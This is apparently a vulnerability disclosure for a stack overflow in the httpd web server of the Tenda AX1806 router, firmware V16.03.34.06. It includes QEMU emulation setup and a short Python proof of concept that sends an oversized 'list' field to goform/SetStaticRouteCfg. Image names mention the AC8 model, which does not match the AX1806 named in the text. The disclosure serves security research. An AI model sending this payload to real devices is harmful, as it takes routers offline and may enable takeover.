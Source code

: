 ### Overview

*   设备官网：[https://www.tenda.com.cn](https://www.tenda.com.cn/product/AX1806.html)
*   固件下载网站：[https://www.tenda.com.cn/material/show/103518](https://www.tenda.com.cn/material/show/103518)

### Affected version

**V16.03.34.06**

### Environmental simulation

need build Network bridge:

```text-plain
apt install uml-utilities bridge-utils
brctl addbr br0
ifconfig br0 192.168.142.100/24
brctl addif br0 ens33//搭建网桥
```

qemu start command：

```text-plain
sudo qemu-mipsel-static -L . ./bin/httpd
```

### Vulnerability details

tdhttpd in directory /bin has stack overflow vulnerability. The vulnerability occurrs in the function, which can be accessed via the URL .`fromSetRouteStatic goform/SetStaticRouteCfg`
![image](https://github.com/Raining-101/IOT_cve/blob/326b7c464ac9bdadf22b3eb19b48fd54df416bde/image/1_tenda-ac8_image.png）

Stack overflow point：

![image](https://github.com/Raining-101/IOT_cve/blob/326b7c464ac9bdadf22b3eb19b48fd54df416bde/image/2_tenda-ac8_image.png)
As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution with carefully crafted overflow data.

### PoC

```text-plain
import requests

data = {
    b"list": b'Raining'*0x400+b',R,R,R'
}
res = requests.post("http://192.168.142.100/goform/SetStaticRouteCfg", data=data)
print(res.content)
```

![image](https://github.com/Raining-101/IOT_cve/blob/23e96bdb4dae3997d1c5555a8011196e5e357ac1/image/3_tenda-ac8_image.png)
